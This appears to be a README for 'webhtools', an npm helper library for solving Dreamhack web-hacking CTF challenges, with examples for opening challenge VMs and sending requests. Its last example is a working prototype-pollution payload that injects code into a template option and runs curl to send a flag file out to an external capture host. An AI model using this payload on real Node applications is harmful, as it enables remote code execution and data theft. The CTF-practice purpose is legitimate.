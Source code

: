 ## Webhtools
This is set of useful tool for webhacking. Includes request helper, dreamhack helper etc.

### Installation
```shell
npm install webhtools
```

### Usage
#### Dreamhack Problem Tools
```typescript
import {ProblemHelper} from "webhtools";

async function run() {
  // const ph = await new ProblemHelper(<problemId>).init();
  const ph = await new ProblemHelper(927).init();

  await ph.openVM();
  // exploit
  console.log(ph.getURL());
  await ph.closeVM();
}

run();
```
At first time, you need to enter your dreamhack account info.

#### Request Helper

```typescript
import {RequestHelper, ProblemHelper} from "webhtools";

const ph = await new ProblemHelper(927).init();
await ph.openVM();

const rh = new RequestHelper(ph.getURL());
const res = await rh.get("/");
console.log(res.ok);
console.log(res.status);
console.log(res.bytes);
console.log(res.text);
console.log(res.json);
console.log(res.formData);

// in fact, you don't need to close vm. it will close automatically
// await ph.closeVM();
```

```js
import { RequestHelper, QueryBuilder } from "webhtools";

const client = new RequestHelper("http://localhost:3000");

const data = {
  key: "__proto__",
  value: {
    "settings": {
      "view options": {
        "outputFunctionName": "x;process.mainModule.require('child_process').execSync(\"curl --data $(cat ./flag) 'https://cghilzr.request.dreamhack.games'\");s"
      }
    }
  }
}
await client.get('/?'+new QueryBuilder(data));
console.log(new QueryBuilder(data))
```